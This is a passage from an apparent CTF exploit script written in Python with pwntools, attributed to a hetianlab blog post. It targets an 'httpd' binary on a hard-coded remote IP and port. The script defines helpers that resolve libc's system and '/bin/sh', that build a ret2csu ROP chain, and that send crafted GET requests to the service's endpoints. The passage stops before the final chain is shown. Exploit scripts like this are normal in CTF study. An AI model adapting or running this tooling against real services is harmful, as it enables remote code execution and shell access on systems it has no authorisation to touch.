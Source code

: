 [https://www.cnblogs.com/hetianlab/p/17682896.html](https://www.cnblogs.com/hetianlab/p/17682896.html)

```python
from pwn import *
from ctypes import *
#from LibcSearcher import *
context(os='linux', arch='amd64', log_level='debug')
#context.terminal = ['tmux','splitw','-h']
filename = './httpd'
debug = 0
ip = '122.9.149.82'
port = 9999
libc_dll = cdll.LoadLibrary("/lib/x86_64-linux-gnu/libc.so.6")
libc = ELF('./libc.so.6')

if debug:
    p = process(filename)
else:
    p = remote(ip,port)

ru      = lambda a:     p.recvuntil(a)
r       = lambda n:     p.recv(n)
sla     = lambda a,b:   p.sendlineafter(a,b)
sa      = lambda a,b:   p.sendafter(a,b)
sl      = lambda a:     p.sendline(a)
s       = lambda a:     p.send(a)

def inter() : p.interactive()
def debu(cmd=''):
    gdb.attach(p,cmd)
    pause()
def get_addr(): 
    return u64(p.recvuntil(b'\x7f')[-6:].ljust(8, b'\x00'))
def get_sysbin(libc_base,libc): 
    return libc_base + libc.sym['system'], libc_base + next(libc.search(b'/bin/sh\x00'))
def csu(rdi, rsi, rdx, rip, gadget) : 
    return p64(gadget) + p64(0) + p64(1) + p64(rip) + p64(rdi) + p64(rsi) + p64(rdx) + p64(gadget - 0x1a)

def init(fd):
    payload = b'GET /init\n'
    payload += b'Stdout: '+str(fd).encode()+b'\n\n'
    s(payload)
    
def poweroff(fd):
    payload = b'GET /poweroff\n'
    payload += b'Stdout: '+str(fd).encode()+b'\n\n'
    s(payload)

def register(username,password,uid,length,fd):
    payload = b'GET /register?username='+username+b'&password='+password+b'&uid='+str(uid).encode()+b'&len='+str(length).encode()+b'\n'
    payload += b'Stdout: '+str(fd).encode()+b'\n\n'
    s(payload)

def logoff(username,password,fd):
    payload = b'GET /logoff?username='+username+b'&password='+password+b'\n'
    payload += b'Stdout: '+str(fd).encode()+b'\n\n'
    s(payload)

def setlocale(fd):
    payload = b'GET /setlocale?LC_ALL=en_US.UTF-8\n'
    payload += b'Stdout: '+str(fd).encode()+b'\n\n'
```